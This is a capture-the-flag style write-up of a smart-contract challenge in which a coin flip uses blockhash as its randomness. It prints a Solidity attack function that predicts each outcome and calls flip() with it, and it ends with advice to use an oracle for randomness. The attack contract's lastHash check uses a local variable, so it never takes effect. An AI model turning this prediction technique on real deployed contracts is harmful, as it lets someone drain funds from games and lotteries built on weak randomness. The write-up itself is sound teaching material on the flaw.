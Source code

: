 ### Challenge:
-  Guess the correct outcome 10 times in a row.

### Vulnerability:
- Weak Source of Randomness.

### Solution:
- As we know all the things i.e `blockhash`& FACTOR etc, that is being used to generate a random variable. We can run the same script to guess the correct output and call the `flip()` 10 times to pass this level.
```solidity
  function attackFlip() public returns(bool) {
    uint256 lastHash;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coin_Flip = blockValue / FACTOR;
    bool side = coin_Flip == 1 ? true : false;

    coinFlip.flip(side);

    return side;
  }
```
PS: This level will test your patience level xD

### Takeaway:
- We should not use Insecure Sources for Randomness i.e `block.timestamp`& `blockhash` etc. Everything we use in smart contracts is publicly visible.
- To get cryptographically proven random numbers/variables, we should use oracles like  Chainlink (Chainlink VRF)

### Useful Resource:
- [Insecure Source of Randomness](https://youtu.be/8FF3IBTMeK0)
